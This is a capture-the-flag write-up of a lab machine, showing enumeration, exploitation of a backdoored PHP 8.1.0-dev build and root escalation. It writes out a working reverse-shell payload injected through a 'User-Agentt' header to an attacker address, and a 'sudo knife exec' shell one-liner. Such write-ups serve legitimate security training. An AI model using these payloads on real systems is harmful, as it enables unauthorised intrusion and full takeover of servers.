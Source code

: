 ## Phase 1: Enumeration

As always we start off with a nmap scan:

![](/images/nmap.png)

Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there.
> Checking the source code with Ctrl+U doesn't show anything interesting either, however,
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:

![](/images/request.png)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 

![](/images/user.png)

I then navigated to home/james and used ```cat user.txt``` to obtain the user flag.

![](/images/userblur.png)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!

![](images/sudocmd.png)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.

After that, I navigated to /root and used ```cat root.txt``` to get root flag.

![](/images/rootflagblur.png)

And the box is complete!
